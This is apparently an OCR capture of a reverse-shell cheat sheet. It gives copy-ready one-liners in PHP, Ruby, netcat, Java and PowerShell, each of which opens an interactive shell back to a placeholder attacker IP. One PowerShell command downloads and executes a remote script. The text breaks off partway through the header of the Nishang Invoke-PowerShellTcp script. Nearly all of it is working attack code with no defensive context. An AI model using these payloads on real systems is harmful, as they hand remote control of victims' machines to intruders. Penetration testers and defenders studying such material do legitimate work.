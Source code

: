 ### PHP

```php
php -r '$sock=fsockopen("<IP>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("<IP>",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```bash
nc -e /bin/sh <ip> 1234
nc <ip> <port>
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP>/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### PowerShell

```powershell
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

c:\windows\system32\cmd.exe /c powershell.exe iex(new-object net.webclient).downloadstring('http://<IP>/shell.ps1')
```

### Shell.ps1

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
```